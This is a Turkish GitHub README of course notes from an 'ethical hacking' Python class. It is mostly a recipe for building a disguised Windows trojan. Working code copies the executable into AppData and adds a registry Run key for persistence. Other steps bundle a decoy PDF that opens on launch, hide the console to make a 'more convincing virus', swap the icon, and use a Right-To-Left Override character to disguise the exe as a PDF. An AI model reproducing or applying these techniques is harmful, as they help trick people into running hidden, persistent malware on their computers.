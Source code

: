 # ethical-hacker
Bu projede ,başlangıçta, Atıl Samancıoğlu'nun "Python: Sıfırdan İleri Seviyeye - Etik Hacker Örnekleriyle" kursunu takip ederek yadığım kodlar vardır. Bunları kendim geliştireceğim ve yeni scriptler ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
`pip install pyinstaller`

pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).

`...\pyinstaller.exe PythonFile.py --onefile`

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"`

Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;
```
...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...
```

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz
`...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."`	(;. ek olarak koymamız gerekiyor)

Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.
```
def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()
```
Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;

`degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)`

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
`apt-get install gnome-characters`

Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.
